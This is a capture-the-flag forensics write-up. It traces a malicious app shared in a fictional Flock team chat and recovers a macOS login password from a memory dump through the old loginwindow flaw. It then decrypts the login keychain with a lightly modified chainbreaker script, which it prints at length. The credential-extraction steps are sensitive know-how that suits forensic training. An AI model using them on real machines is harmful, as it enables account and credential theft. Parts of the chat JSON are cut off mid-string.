//f.flockusercontent3.com/667148/ab3908f17491315471862a59","filename":"ImageEnhancePro.zip","size":98438,"id":"667148/ab3908f17491315471862a59"}],"buttons":[]}],"headers":{"bt":"file"},"type":"GROUPCHAT","id":"d_1749131542740_g1yq4bt1"
```

so from this we know that Eddie Brock was the one who sent the malicious application `ImageEnhancerPro.app` so we need to find the username and email (also for this question particularly i made a mistake by including it as the username in the question maybe name would have been appropriate i could not change it during the CTF because few people already have gone past it), for this we can leverage the IndexedDb  and we find an email `hecoj34842@eduhed.com` not associated with all the other members present in the team to confirm we can also add this email to our team  we can see it is Eddie Brock indeed, also from other email patterns we can figure out that `Hecoj4842` is the username 
therefore the answer is :
```
Hecoj34842_hecoj34842@eduhed.com
```

Q6/15) What is the user name and email address of the user who advised Peter Parker to take his laptop for repair, what is the name of the recommended repair service, and in which Flock channel was this advice given? Format: *User-Name_email_Place_Channel:_Name*

From the above analysis of the above question we also found:

```json
"flockMessages": [
                    {
                        "profile": {
                            "name": "Spiderman: Menace",
                            "avatar": "https://g.flockusercontent.com/channel-type-general.png",
                            "unnamed": false
                        },
                        "config": {
                            "type": "open",
                            "privileges": {
                                "teamMember": {
                                    "join": "member"
                                },
                                "groupAffiliate": {
                                    "addAffiliate": "member",
                                    "affiliationChange": "moderator",
                                    "appInstall": "moderator",
                                    "appUsage": "member",
                                    "configChange": "moderator",
                                    "deleteOthersPost": "none",
                                    "deleteSelfPost": "member",
                                    "leave": "member",
                                    "muteGroup": "member",
                                    "post": "member",
                                    "profileChange": "member",
                                    "removeAffiliate": "member",
                                    "viewMemberList": "member",
                                    "viewModeratorList": "member"
                                }
                            },
                            "loudNotification": {
                                "nameChange": "member"
                            },
                            "autoJoin": false,
                            "restricted": false
                        },
                        "members": [
                            {
                                "jid": "vx1x621ffzs2zyy6@go.to",
                                "oldAffiliation": "none",
                                "newAffiliation": "moderator"
                            },
                            {
                                "jid": "k47pkcc74p5lb5lk@go.to",
                                "oldAffiliation": "none",
                                "newAffiliation": "member"
                            }
                        ],
                        "isDeleted": false,
                        "groupVersion": 1,
                        "headers": {},
                        "type": "GROUP_UPDATE_NOTIFICATION",
                        "id": "908a73d6-e22c-4fa8-943e-2903a7ee3a69",
                        "to":"867b48b3f94649008358037031d96778@groups.go.t_
OE	o","from":"867b48b3f94649008358037031d96778@groups.go.to","actor":"vx1x621ffzs2zyy6@go.to","timestamp":"1748623639744","timestampInMillis":1748623639744,"uid":"1748623639744-pZl-m202","actions":[],"ignoreActions":[],"x":{"Grp_Version":1.0}},{"members":[{"jid":"9dm99teajkdad949@go.to","oldAffiliation":"none","newAffiliation":"member"}],"isDeleted":false,"groupVersion":2,"headers":{},"type":"GROUP_UPDATE_NOTIFICATION","id":"688fd6e5-407c-4f21-9c7d-a8add056fa67","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"867b48b3f94649008358037031d96778@groups.go.to","actor":"vx1x621ffzs2zyy6@go.to","timestamp":"1748686230985","timestampInMillis":1748686230985,"uid":"1748686230985-uGS-m203","actions":[],"ignoreActions":[],"x":{"Grp_Version":2.0}}],"chat":"867b48b3f94649008358037031d96778@groups.go.to"},{"messages":[],"flockMessages":[{"members":[{"jid":"i6ibb9sf6s99rqsr@go.to","oldAffiliation":"none","newAffiliation":"member"}],"isDeleted":false,"groupVersion":3,"headers":{},"type":"GROUP_UPDATE_NOTIFICATION","id":"4362990f-0802-463f-9e40-fc24f583c41a","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"867b48b3f94649008358037031d96778@groups.go.to","actor":"vx1x621ffzs2zyy6@go.to","timestamp":"1748687122077","timestampInMillis":1748687122077,"uid":"1748687122077-nb7-m203","actions":[],"ignoreActions":[],"x":{"Grp_Version":3.0}},{"editedOn":"1748687219814","headers":{},"type":"GROUPCHAT","id":"a_1748687192012_91NfxZlDL5","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"vx1x621ffzs2zyy6@go.to","text":"Alright, team
ve you got?","timestamp":"1748687192712","timestampInMillis":1748687192712,"uid":"1748687192712-nH4-m203","actions":[],"ignoreActions":[],"x":{}}],"chat":"867b48b3f94649008358037031d96778@groups.go.to"},{"messages":[],"flockMessages":[{"messageUid":"1748687192712-nH4-m203","headers":{},"type":"EDIT_MESSAGE","id":"a_1748687219135_2MZ4wmKY1A","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"vx1x621ffzs2zyy6@go.to","text":"Alright, team
hero or menace. Your call.","timestamp":"1748687259970","timestampInMillis":1748687259970,"uid":"1748687259970-xA7-m202","actions":[],"ignoreActions":[],"x":{}}],"chat":"867b48b3f94649008358037031d96778@groups.go.to"},{"messages":[],"flockMessages":[{"headers":{},"type":"GROUPCHAT","id":"a_1748687312623_gqDic4iOh2","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"vx1x621ffzs2zyy6@go.to","text":"Menace, obviously! Property damage? That
ve been having laptop troubles.","timestamp":"1748687810040","timestampInMillis":1748687810040,"uid":"1748687810040-Z2e-m201","actions":[],"ignoreActions":[],"x":{}}],"chat":"867b48b3f94649008358037031d96778@groups.go.to"},{"messages":[],"flockMessages":[{"headers":{},"type":"GROUPCHAT","id":"d_1748688056131_3gq8425t","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"k47pkcc74p5lb5lk@go.to","text":"Hey,yeah , about that.. my laptop\u0027s been a nightmare lately. it keeps freezing, and i can\u0027t even open my editing software half the time. I\u0027ve got some great Spider-Man shots from last week, but i cant\u0027t get to them until i fix this. Does anyone know a good tech guy? I\u0027m desperate here.","timestamp":"1748688056374","timestampInMillis":1748688056374,"uid":"1748688056374-RS9-m202","actions":[],"ignoreActions":[],"x":{}},{"headers":{},"type":"GROUPCHAT","id":"d_1748688722636_rxcqptjm","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"9dm99teajkdad949@go.to","text":"Peter, I know a reliable IT service in Midtown
d like. You really need to get those photos to Jonah soon.","timestamp":"1748688722821","timestampInMillis":1748688722821,"uid":"1748688722821-cth-m202","actions":[],"ignoreActions":[],"x":{}}],"chat":"867b48b3f94649008358037031d96778@groups.go.to"},{"messages":[],"receipts":[{"jid":"k47pkcc74p5lb5lk@go.to","lr":1748688980321}],"flockMessages":[{"headers":{},"type":"GROUPCHAT","id":"d_1748688939932_vprh7kxk","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"k47pkcc74p5lb5lk@go.to","text":"Thanks, Robbie, that sounds perfect.I\u0027ll reach out to TechFix Solutions right away. I don\u0027t want to mess around with random fixes
_1074.messages=_1074.messages.concat(_1075.flockMessages);
_108c[_1096
                        ]=_108c[_1096
                        ].concat(_1095.flockMessages);
_1094+=_1095.flockMessages.length;
```

and by parsing the IndexedDb using the [`dfindexeddb`](https://github.com/google/dfindexeddb)  we get :
```json
		{
          "jid": "9dm99teajkdad949@go.to",
          "pinned": false,
          "type": "buddy",
          "id": 1748682665271.0,
          "ownerGuid": "k47pkcc74p5lb5lk",
          "name": "Robbie Robertson",
          "chatName": "Robbie R",
          "email": "jefoyil452@baxima.com",
          "mobile": {
            "__type__": "Undefined"
          }
```
also we can notice pattern that from `<flockml>` :
```xml
<flockml>Hello Peter! Jefoyil452 just joined Flock.<br/>Why don't you <action id='hi' type='sendEvent'>say Hi</action> and welcome Jefoyil452 to your team?</flockml>
```
therefore, the answer to the above question is :
```
Robbie-Robertson_jefoyil452@baxima.com_TechFix_Spiderman:_Menace
```

Q7/15) What are the login credentials of the compromised system? Format: *username:password*

For getting the credentials of the compromised system, i don't know why  but Many initially tried brute-forcing a hash to find the credentials, but a hint clarified this approach is incorrect. Instead, the solution exploits a  security flaw in Mac OS X's `LoginWindow.app`, where user credentials (usernames and passwords) are not properly cleared from memory after authentication[(refrence)](https://seclists.org/bugtraq/2008/Feb/442). This allows potential extraction of plaintext passwords from memory dumps, particularly in systems running older versions of  Mac OS X.  `Loginwindow` doesn't sanitize the user supplied password after the login is authenticated. This appears to last for the entirety of the session. The application `loginwindow` running as:
```
/System/Library/CoreServices/loginwindow.app/Contents/MacOS/loginwindow
console
```
This allows plaintext passwords to be extracted from a memory dump—a snapshot of the system's RAM so from this  [blog](https://faculty.nps.edu/ncrowe/oldstudents/icdf2c17_leopard.htm), we can see that simply by searching  for the term `longname`  in the memory dump we can see that there only  10 occurences of it and upon scrolling on 9th occurence we can find the password :

therefore the answer is :
```
admin:!_L0v3_U%3000
```
Q8/15) What is the email and password for Peter Parker’s iCloud account? Format: *email:password*
For getting the email and password for Peter Parker's iCloud account ,generally all the usernames and passwords for macOS  are managed by the default password manager `KeyChain Access`, there are two files which contain these `login.keychain` whose path is :

```
0xffffff802d714960 /Users/admin/Library/Keychains/login.keychain
```
and `system.keychain` whose path is :
```
0xffffff802243fe10 /Library/Keychains/System.keychain
```
upon dumping both of them using `mac_dump_file` from volatility 2 :
```
login.keychain:  Mac OS X Keychain File
system.keychain: Mac OS X Keychain File
```

if you are using a macOS system you  can directly try to unlock the `login.keychain` file by opening them with `Keychain Access` and then use the login password to unlock it:

we can also unlock the `.keychain` file even if we are not on a macOS system, there is a tool written by [n0fate](https://x.com/n0fate) on github called [chainbreaker](https://github.com/n0fate/chainbreaker) which helps us to unlock `.keychain` files if we either have the password or master key , well in this case we already have the password `!_L0v3_U%3000` with us , so we don't need the master key to unlock it , by using `chainbreaker` on the `login.keychain` we get the iCloud account password as a generic password record:
 

```
$ chainbreaker --dump-all login.keychain --password  '!_L0v3_U%3000' | grep iCloud
2025-07-29 16:02:35,997 - INFO -         [-] Print Name: b'iCloud - peter.parker@icloud.com'
2025-07-29 16:02:35,997 - INFO -         [-] Service: b'iCloud - peter.parker@icloud.com'
2025-07-29 16:02:35,997 - INFO -         [-] Password: Spidey_iCloud_123
```

therefore the answer is :
```
peter.parker@icloud.com:Spidey_iCloud_123
```

Q9/15) What are the master key, database key, record key, and SSGP label for the keychain record containing Peter Parker’s Gmail account credentials? Format: *masterkey_dbkey_recordkey_SSGP-label*
 For this question in order to get  the master key, database key, record key and SSGP label for the keychain record with Peter Parker's Gmail account credentials ,we need to dig into the  structure of  macOS `.keychain` file , and also i found this super  [interesting paper](https://repo.zenk-security.com/Forensic/Keychain%20Analysis%20with%20Mac%20OS%20X%20Memory%20Forensics.pdf) on  `Keychain Analysis with Mac OS X Memory Forensics`  that breaks it down perfectly, here is an illustration from the paper depicting the Keychain Structure :

Also in order to get familiar with all the terms and phrases here is a brief of what each term is and its usage described below:
- The `.keychain` file uses the Apple Database format, with a header, schema, and tables (Figure 4 in the paper). The keychain stores encrypted credentials in tables like `CSSM_DL_DB_INTERNET_PASSWORD` for Gmail accounts

- **Master Key**: This is a 24-byte key used to unlock the keychain’s secrets. In macOS Lion (10.7) and later, it hangs out in the `securityd` process’s `MALLOC_TINY` memory region (1MB chunk). It’s either derived from the user’s login password (like `!_L0v3_U%3000` from Q7) or grabbed directly from a memory dump using tools like volatility’s `mac_keychaindump` in our case(the paper mentions that we can use `volafox`'s  `keychaindump` plugin too which is also one of the tool written by [n0fate](https://x.com/n0fate) for macOS memory analysis). The paper explains it’s 0x18 bytes long and validated by checking the keychain file’s signature.
- **Database Key**: A 24-byte key stored in the `DbBlob` record of the `CSSM_DL_DB_RECORD_METADATA` table in the `.keychain` file. It’s encrypted with the master key using Triple DES (3DES) in CBC mode with PKCS#1 padding. Once decrypted, it’s the key to unlocking record keys. The paper’s Figure 7 shows the `DbBlob` structure with a salt, IV, and encrypted database key:
  
- **Record Key**: Another 24-byte key, found in the `KeyBlob` record of the `CSSM_DL_DB_SYMMETRIC_KEY` table(ref. Figure 8 in the paper). It’s encrypted with the database key (3DES, CBC, PKCS#1) and needs two decryptions: first with a fixed IV (`magicCmsIv`: `4adda22c79e82105`), then with the `KeyBlob`’s own IV, reversing the first output’s octets (see Figure 10 in the paper).



This key decrypts specific credentials, like for instance Peter Parker’s Gmail password in our case.
- **SSGP Label**: A 16-byte identifier tagged with the signature `ssgp` in both `KeyBlob` and `DataBlob` records. It links a record key to the right user credential in the `CSSM_DL_DB_INTERNET_PASSWORD` table (since Gmail is an internet account). The paper’s Figure 9 shows the `KeyBlob` structure with the SSGP label right after the signature.

summing everything up from the above , we can use the `chainbreaker` tool itself to get all the above mentioned items since we already have the login password `!_L0v3_U%3000`,since we alreadt have an understanding of how keychain files work in storing and decrypting the password, we just need to tweak the `chainbreaker.py` script under `chainbreaker` a bit such that it prints all the keys and the SSGP label . here is the tweaked version of the script:
```py
#!/usr/bin/python

  

# Author : n0fate

# E-Mail rapfer@gmail.com, n0fate@n0fate.com

#

# 10/7/2020 - Significant changes made by luke@socially-inept.net

#

# This program is free software; you can redistribute it and/or modify

# it under the terms of the GNU General Public License as published by

# the Free Software Foundation; either version 2 of the License, or (at

# your option) any later version.

#

# This program is distributed in the hope that it will be useful, but

# WITHOUT ANY WARRANTY; without even the implied warranty of

# MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU

# General Public License for more details.

#

# You should have received a copy of the GNU General Public License

# along with this program; if not, write to the Free Software

# Foundation, Inc., 59 Temple Place, Suite 330, Boston, MA 02111-1307 USA

#

import struct

from pbkdf2 import PBKDF2

from schema import *

from schema import _APPL_DB_HEADER, _APPL_DB_SCHEMA, _TABLE_HEADER, _DB_BLOB, _GENERIC_PW_HEADER, \

    _KEY_BLOB_REC_HEADER, _KEY_BLOB, _SSGP, _INTERNET_PW_HEADER, _APPLE_SHARE_HEADER, _X509_CERT_HEADER, _SECKEY_HEADER, \

    _UNLOCK_BLOB, _KEYCHAIN_TIME, _INT, _FOUR_CHAR_CODE, _LV, _TABLE_ID, _RECORD_OFFSET

from pyDes import TripleDES, CBC

from binascii import unhexlify, hexlify

import logging

import base64

import string

import uuid

  

class Chainbreaker(object):

    ATOM_SIZE = 4

    KEYCHAIN_SIGNATURE = "kych"

    BLOCKSIZE = 8

    KEYLEN = 24

    MAGIC_CMS_IV = unhexlify('4adda22c79e82105')

    KEYCHAIN_LOCKED_SIGNATURE = '[Invalid Password / Keychain Locked]'

  

    def __init__(self, filepath, unlock_password=None, unlock_key=None, unlock_file=None):

        self._filepath = None

        self._unlock_password = None

        self._unlock_key = None

        self._unlock_file = None

        self._db_key = None

  

        # Raw buffer of keychain file contents

        self.kc_buffer = ''

  

        self.header = None

        self.schema_info = None

        self.table_list = None

        self.table_metadata = None

        self.record_list = None

        self.table_count = None

        self.table_enum = None

        self.symmetric_key_list = None

        self.symmetric_key_offset = None

        self.dbblob = None

        self.locked = True

  

        self.logger = logging.getLogger('Chainbreaker')

  

        self.key_list = {}

  

        self.db_key = None

  

        self.filepath = filepath

  

        if not self._is_valid_keychain():

            self.logger.warning('Keychain signature does not match. are you sure this is a valid keychain file?')

  

        self.unlock_password = unlock_password

        self.unlock_key = unlock_key

        self.unlock_file = unlock_file

  

    # Returns a list of GenericPasswordRecord objects extracted from the Keychain

    def dump_generic_passwords(self):

        entries = []

        try:

            table_metadata, generic_pw_list = self._get_table_from_type(CSSM_DL_DB_RECORD_GENERIC_PASSWORD)

  

            for generic_pw_id in generic_pw_list:

                entries.append(self._get_generic_password_record(generic_pw_id))

  

        except KeyError:

            self.logger.warning('[!] Generic Password Table is not available')

  

        return entries

  

    # Returns a list of InterertPasswordRecord objects extracted from the Keychain

    def dump_internet_passwords(self):

        entries = []

        try:

            table_metadata, internet_pw_list = self._get_table_from_type(CSSM_DL_DB_RECORD_INTERNET_PASSWORD)

  

            for internet_pw_id in internet_pw_list:

                entries.append(self._get_internet_password_record(internet_pw_id))

  

        except KeyError:

            self.logger.warning('[!] Internet Password Table is not available')

        return entries

  

    # Returns a list of AppleshareRecord objects extracted from the Keychain

    def dump_appleshare_passwords(self):

        entries = []

        try:

            table_metadata, appleshare_pw_list = self._get_table_from_type(CSSM_DL_DB_RECORD_APPLESHARE_PASSWORD)

  

            for appleshare_pw_offset in appleshare_pw_list:

                entries.append(self._get_appleshare_record(appleshare_pw_offset))

  

        except KeyError:

            self.logger.warning('[!] Appleshare Records Table is not available')

        return entries

  

    # Returns a list of X509CertfificateRecord objects extracted from the Keychain

    def dump_x509_certificates(self):

        entries = []

        try:

            table_metadata, x509_cert_list = self._get_table_from_type(CSSM_DL_DB_RECORD_X509_CERTIFICATE)

  

            for i, x509_cert_offset in enumerate(x509_cert_list, 1):

                entries.append(self._get_x_509_record(x509_cert_offset))

  

        except KeyError:

            self.logger.warning('[!] Certificate Table is not available')

  

        return entries

  

    # Returns a list of PublicKeyRecord objects extracted from the Keychain

    def dump_public_keys(self):

        entries = []

        try:

            table_metadata, public_key_list = self._get_table_from_type(CSSM_DL_DB_RECORD_PUBLIC_KEY)

            for public_key_offset in public_key_list:

                entries.append(

                    self._get_public_key_record(public_key_offset))

        except KeyError:

            self.logger.warning('[!] Public Key Table is not available')

        return entries

  

    # Returns a list of PrivateKeyRecord objects extracted from the Keychain

    def dump_private_keys(self):

        entries = []

        try:

            table_meta, private_key_list = self._get_table_from_type(CSSM_DL_DB_RECORD_PRIVATE_KEY)

            for i, private_key_offset in enumerate(private_key_list, 1):

                entries.append(

                    self._get_private_key_record(private_key_offset))

  

        except KeyError:

            self.logger.warning('[!] Private Key Table is not available')

        return entries

  

    # Attempts to read the keychain file into self.kc_buffer

    # On success it extracts out relevant information (table information, key offsets, and the DB BLob)

    def _read_keychain_to_buffer(self):

        try:

            with open(self.filepath, 'rb') as fp:

                self.kc_buffer = fp.read()

  

            if self.kc_buffer:

                self.header = _APPL_DB_HEADER(self.kc_buffer[:_APPL_DB_HEADER.STRUCT.size])

                self.schema_info, self.table_list = self._get_schema_info(self.header.SchemaOffset)

                self.table_metadata, self.record_list = self._get_table(self.table_list[0])

                self.table_count, self.table_enum = self._get_table_name_to_list(self.record_list, self.table_list)

  

                self.symmetric_key_offset = self.table_list[self.table_enum[CSSM_DL_DB_RECORD_METADATA]]

  

                self.base_addr = _APPL_DB_HEADER.STRUCT.size + self.symmetric_key_offset + 0x38

                self.dbblob = _DB_BLOB(self.kc_buffer[self.base_addr:self.base_addr + _DB_BLOB.STRUCT.size])

  

        except OSError as e:

            self.logger.critical("Unable to read keychain: %s" % e)

  

    # Simple check to make sure the keychain we're looking at is valid.

    # A valid keychain begins with "kych"

    def _is_valid_keychain(self):

        if self.kc_buffer[0:4] != Chainbreaker.KEYCHAIN_SIGNATURE:

            return False

        return True

  

    # When the keychain is successfully decrypted ("unlocked"), we can obtain a list of encryption keys

    # used to encrypt individual records, indexed off of the SSGB label.

    def _generate_key_list(self):

        table_meta_data, symmetric_key_list = self._get_table_from_type(CSSM_DL_DB_RECORD_SYMMETRIC_KEY)

  

        for symmetric_key_record in symmetric_key_list:

            keyblob, ciphertext, iv, return_value = self._get_keyblob_record(symmetric_key_record)

            if return_value == 0:

                password = Chainbreaker.keyblob_decryption(ciphertext, iv, self.db_key)

                if password != '':

                    self.key_list[keyblob] = password

  

        return len(self.key_list)

  

    # Returns basic schema (table count, size) and a list of the tables from the Keychain file.

    def _get_schema_info(self, offset):

        table_list = []

        schema_info = _APPL_DB_SCHEMA(self.kc_buffer[offset:offset + _APPL_DB_SCHEMA.STRUCT.size])

  

        for i in xrange(schema_info.TableCount):

            base_addr = _APPL_DB_HEADER.STRUCT.size + _APPL_DB_SCHEMA.STRUCT.size

            table_list.append(_TABLE_ID(self.kc_buffer[base_addr + (Chainbreaker.ATOM_SIZE * i):base_addr + (

                    Chainbreaker.ATOM_SIZE * i) + Chainbreaker.ATOM_SIZE]).Value)

  

        return schema_info, table_list

  

    # Given a table name, return the offset for the table

    def _get_table_offset(self, table_name):

        return self.table_list[self.table_enum[table_name]]

  

    # Returns a table, given the AppleFileDL CSSM_DB_RECORDTYPE from schema.py

    # (e.g. CSSM_DL_DB_RECORD_GENERIC_PASSWORD)

    def _get_table_from_type(self, table_type):

        return self._get_table(self._get_table_offset(table_type))

  

    # Returns a both the metadata and a record list for a table, given an offset.

    def _get_table(self, offset):

        record_list = []

  

        base_addr = _APPL_DB_HEADER.STRUCT.size + offset

        table_metadata = _TABLE_HEADER(self.kc_buffer[base_addr:base_addr + _TABLE_HEADER.STRUCT.size])

        record_offset_base = base_addr + _TABLE_HEADER.STRUCT.size

  

        record_count = 0

        offset = 0

        while table_metadata.RecordCount != record_count:

            record_offset = _RECORD_OFFSET(self.kc_buffer[

                                           record_offset_base + (Chainbreaker.ATOM_SIZE * offset):record_offset_base + (

                                                   Chainbreaker.ATOM_SIZE * offset) + Chainbreaker.ATOM_SIZE]).Value

  

            if (record_offset != 0x00) and (record_offset % 4 == 0):

                record_list.append(record_offset)

                record_count += 1

            offset += 1

  

        return table_metadata, record_list

  

    # Returns a dict of table indexes keyed off of the TableId

    def _get_table_name_to_list(self, record_list, table_list):

        table_dict = {}

        for count in xrange(len(record_list)):

            table_metadata, generic_list = self._get_table(table_list[count])

            table_dict[table_metadata.TableId] = count  # extract valid table list

  

        return len(record_list), table_dict

  

    def _get_keyblob_record(self, record_offset):

  

        base_addr = self._get_base_address(CSSM_DL_DB_RECORD_SYMMETRIC_KEY, record_offset)

  

        key_blob_record_header = _KEY_BLOB_REC_HEADER(

            self.kc_buffer[base_addr:base_addr + _KEY_BLOB_REC_HEADER.STRUCT.size])

  

        record = self.kc_buffer[

                 base_addr + _KEY_BLOB_REC_HEADER.STRUCT.size:base_addr + key_blob_record_header.RecordSize]

  

        key_blob_record = _KEY_BLOB(record[:+_KEY_BLOB.STRUCT.size])

  

        if SECURE_STORAGE_GROUP != str(record[key_blob_record.TotalLength + 8:key_blob_record.TotalLength + 8 + 4]):

            return '', '', '', 1

  

        cipher_len = key_blob_record.TotalLength - key_blob_record.StartCryptoBlob

        if cipher_len % Chainbreaker.BLOCKSIZE != 0:

            self.logger.debug("Bad ciphertext length.")

            return '', '', '', 1

  

        cipher_text = record[key_blob_record.StartCryptoBlob:key_blob_record.TotalLength]

  

        # match data, keyblob_ciphertext, Initial Vector, success

        return record[

               key_blob_record.TotalLength + 8:key_blob_record.TotalLength + 8 + 20], cipher_text, key_blob_record.IV, 0

  

    # Get a timestamp from the keychain buffer

    def _get_keychain_time(self, base_addr, pcol):

        if pcol <= 0:

            return ''

        else:

            return _KEYCHAIN_TIME(self.kc_buffer[base_addr + pcol:base_addr + pcol + _KEYCHAIN_TIME.STRUCT.size]).Time

  

    # Get an integer from the keychain buffer

    def _get_int(self, base_addr, pcol):

        if pcol <= 0:

            return 0

        else:

            return _INT(self.kc_buffer[base_addr + pcol:base_addr + pcol + 4]).Value

  

    # Get 4 character code from the keychain buffer

    def _get_four_char_code(self, base_addr, pcol):

        if pcol <= 0:

            return ''

        else:

            return _FOUR_CHAR_CODE(self.kc_buffer[base_addr + pcol:base_addr + pcol + 4]).Value

  

    # Get an lv from the keychain buffer

    def _get_lv(self, base_addr, pcol):

        if pcol <= 0:

            return ''

  

        str_length = _INT(self.kc_buffer[base_addr + pcol:base_addr + pcol + 4]).Value

        # 4byte arrangement

        if (str_length % 4) == 0:

            real_str_len = (str_length / 4) * 4

        else:

            real_str_len = ((str_length / 4) + 1) * 4

  

        try:

            data = _LV(self.kc_buffer[base_addr + pcol + 4:base_addr + pcol + 4 + real_str_len], real_str_len).Value

        except struct.error:

            self.logger.debug('LV string length is too long.')

            return ''

  

        return data

  

    #

    # # http://opensource.apple.com/source/libsecurity_keychain/libsecurity_keychain-55044/lib/KeyItem.cpp

    def _private_key_decryption(self, encryptedblob, iv):

        plain = Chainbreaker._kcdecrypt(self.db_key, Chainbreaker.MAGIC_CMS_IV, encryptedblob)

  

        if plain.__len__() == 0:

            return '', ''

  

        # now we handle the unwrapping. we need to take the first 32 bytes,

        # and reverse them.

        revplain = ''

        for i in range(len(plain)):

            revplain += plain[len(plain) - 1 - i]

  

        # now the real key gets found. */

        plain = Chainbreaker._kcdecrypt(self.db_key, iv, revplain)

  

        keyname = plain[:12]  # Copied Buffer when user click on right and copy a key on Keychain Access

        keyblob = plain[12:]

  

        return keyname, keyblob

  

    # ## Documents : http://www.opensource.apple.com/source/securityd/securityd-55137.1/doc/BLOBFORMAT

    def _generate_master_key(self, pw):

        return str(PBKDF2(pw, str(bytearray(self.dbblob.Salt)), 1000, Chainbreaker.KEYLEN))

  

    # ## find DBBlob and extract Wrapping key

    def _find_wrapping_key(self, master):

        # get cipher text area

        ciphertext = self.kc_buffer[

                     self.base_addr + self.dbblob.StartCryptoBlob:self.base_addr + self.dbblob.TotalLength]

  

        # decrypt the key

        plain = Chainbreaker._kcdecrypt(master, self.dbblob.IV, ciphertext)

  

        if plain.__len__() < Chainbreaker.KEYLEN:

            return ''

  

        dbkey = plain[:Chainbreaker.KEYLEN]

  

        # return encrypted wrapping key

        return dbkey

  

    # Extract the Cyphertext, IV, and Salt for the keychain file, for use with offline cracking (e.g. Hashcat)

    # Returns a KeychainPasswordHash object

    def dump_keychain_password_hash(self):

        cyphertext = hexlify(

            self.kc_buffer[self.base_addr + self.dbblob.StartCryptoBlob:self.base_addr + self.dbblob.TotalLength])

  

        iv = hexlify(self.dbblob.IV)

        salt = hexlify(self.dbblob.Salt)

  

        return self.KeychainPasswordHash(salt, iv, cyphertext)

  

    # Given a base address and offset (ID) of a record,

    def _get_appleshare_record(self, record_offset):

        base_addr = self._get_base_address(CSSM_DL_DB_RECORD_APPLESHARE_PASSWORD, record_offset)

  

        record_meta = _APPLE_SHARE_HEADER(self.kc_buffer[base_addr:base_addr + _APPLE_SHARE_HEADER.STRUCT.size])

  

        buffer = self.kc_buffer[base_addr + _APPLE_SHARE_HEADER.STRUCT.size:base_addr + record_meta.RecordSize]

  

        ssgp, dbkey = self._extract_ssgp_and_dbkey(record_meta, buffer)

  

        return self.AppleshareRecord(

            created=self._get_keychain_time(base_addr, record_meta.CreationDate & 0xFFFFFFFE),

            last_modified=self._get_keychain_time(base_addr, record_meta.ModDate & 0xFFFFFFFE),

            description=self._get_lv(base_addr, record_meta.Description & 0xFFFFFFFE),

            comment=self._get_lv(base_addr, record_meta.Comment & 0xFFFFFFFE),

            creator=self._get_four_char_code(base_addr, record_meta.Creator & 0xFFFFFFFE),

            type=self._get_four_char_code(base_addr, record_meta.Type & 0xFFFFFFFE),

            print_name=self._get_lv(base_addr, record_meta.PrintName & 0xFFFFFFFE),

            alias=self._get_lv(base_addr, record_meta.Alias & 0xFFFFFFFE),

            protected=self._get_lv(base_addr, record_meta.Protected & 0xFFFFFFFE),

            account=self._get_lv(base_addr, record_meta.Account & 0xFFFFFFFE),

            volume=self._get_lv(base_addr, record_meta.Volume & 0xFFFFFFFE),

            server=self._get_lv(base_addr, record_meta.Server & 0xFFFFFFFE),

            protocol_type=self._get_four_char_code(base_addr, record_meta.Protocol & 0xFFFFFFFE),

            address=self._get_lv(base_addr, record_meta.Address & 0xFFFFFFFE),

            signature=self._get_lv(base_addr, record_meta.Signature & 0xFFFFFFFE),

            ssgp=ssgp,

            dbkey=dbkey

        )

  

    def _get_private_key_record(self, record_offset):

        record = self._get_key_record(self._get_table_offset(CSSM_DL_DB_RECORD_PRIVATE_KEY), record_offset)

  

        if not self.db_key:

            keyname = privatekey = Chainbreaker.KEYCHAIN_LOCKED_SIGNATURE

        else:

            keyname, privatekey = self._private_key_decryption(record[10], record[9])

        return self.PrivateKeyRecord(

            print_name=record[0],

            label=record[1],

            key_class=KEY_TYPE[record[2]],

            private=record[3],

            key_type=record[4],

            key_size=record[5],

            effective_key_size=record[6],

            extracted=record[7],

            cssm_type=record[8],

            iv=record[9],

            key=record[10],

            key_name=keyname,

            private_key=privatekey,

        )

  

    def _get_public_key_record(self, record_offset):

        record = self._get_key_record(self._get_table_offset(CSSM_DL_DB_RECORD_PUBLIC_KEY), record_offset)

        return self.PublicKeyRecord(

            print_name=record[0],

            label=record[1],

            key_class=KEY_TYPE[record[2]],

            private=record[3],

            key_type=record[4],

            key_size=record[5],

            effective_key_size=record[6],

            extracted=record[7],

            cssm_type=record[8],

            iv=record[9],

            public_key=record[10],

        )

  

    def _get_key_record(self, table_name, record_offset):  ## PUBLIC and PRIVATE KEY

        base_addr = self._get_base_address(table_name, record_offset)

  

        record_meta = _SECKEY_HEADER(self.kc_buffer[base_addr:base_addr + _SECKEY_HEADER.STRUCT.size])

  

        key_blob = self.kc_buffer[

                   base_addr + _SECKEY_HEADER.STRUCT.size:base_addr + _SECKEY_HEADER.STRUCT.size + record_meta.BlobSize]

  

        iv, key = Chainbreaker._get_encrypted_data_in_blob(key_blob)

  

        return [self._get_lv(base_addr, record_meta.PrintName & 0xFFFFFFFE),

                self._get_lv(base_addr, record_meta.Label & 0xFFFFFFFE),

                self._get_int(base_addr, record_meta.KeyClass & 0xFFFFFFFE),

                self._get_int(base_addr, record_meta.Private & 0xFFFFFFFE),

                CSSM_ALGORITHMS[self._get_int(base_addr, record_meta.KeyType & 0xFFFFFFFE)],

                self._get_int(base_addr, record_meta.KeySizeInBits & 0xFFFFFFFE),

                self._get_int(base_addr, record_meta.EffectiveKeySize & 0xFFFFFFFE),

                self._get_int(base_addr, record_meta.Extractable & 0xFFFFFFFE),

                STD_APPLE_ADDIN_MODULE[

                    str(self._get_lv(base_addr, record_meta.KeyCreator & 0xFFFFFFFE)).split('\x00')[0]],

                iv,

                key]

  

    def _get_x_509_record(self, record_offset):

        base_addr = self._get_base_address(CSSM_DL_DB_RECORD_X509_CERTIFICATE, record_offset)

  

        record_meta = _X509_CERT_HEADER(self.kc_buffer[base_addr:base_addr + _X509_CERT_HEADER.STRUCT.size])

  

        return self.X509CertificateRecord(

            type=self._get_int(base_addr, record_meta.CertType & 0xFFFFFFFE),

            encoding=self._get_int(base_addr, record_meta.CertEncoding & 0xFFFFFFFE),

            print_name=self._get_lv(base_addr, record_meta.PrintName & 0xFFFFFFFE),

